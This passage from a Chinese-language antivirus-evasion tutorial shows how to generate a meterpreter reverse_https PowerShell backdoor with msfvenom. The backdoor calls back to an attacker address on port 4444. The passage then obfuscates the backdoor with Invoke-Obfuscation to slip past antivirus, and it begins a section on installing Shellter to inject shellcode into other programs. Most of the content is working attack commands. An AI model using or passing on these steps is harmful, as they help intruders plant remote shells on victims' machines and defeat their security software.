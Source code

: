 
安装同样的方式混淆powershell的后门，但区别在于将payload类型更换为reverse_https

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f psh-reflection >shell.ps1
# pwsh
PS> Import-Module ./Invoke-Obfuscation.psd1
PS> Invoke-Obfuscation
set scriptpath /root/桌面/免杀/Invoke-Obfuscation-master/shell.ps1
Invoke-Obfuscation> ENCODING-->5
Invoke-Obfuscation\Encoding> back
Invoke-Obfuscation> ast
Invoke-Obfuscation\AST> ScriptBlockAst
Invoke-Obfuscation\AST\Scriptblockast> 1
Invoke-Obfuscation\AST\Scriptblockast> out test1.ps1
```

![image-20230123051317435](../../images//image-20230123051317435.png)

依旧无法完成理想中的免杀

![image-20230123051908124](../../images//image-20230123051908124.png)



### 使用Shellter进行免杀

Shellter 是一款动态 shellcode 注入工具，我们可以将shellcode注入到其它程序上，从而来躲避杀毒软件的查杀。

项目地址：https://www.shellterproject.com/ 

Shellter的安装及启动：

```
dpkg --add-architecture i386 && apt-get update
apt-get install wine32:i386
apt-get install shellter
shellter
```
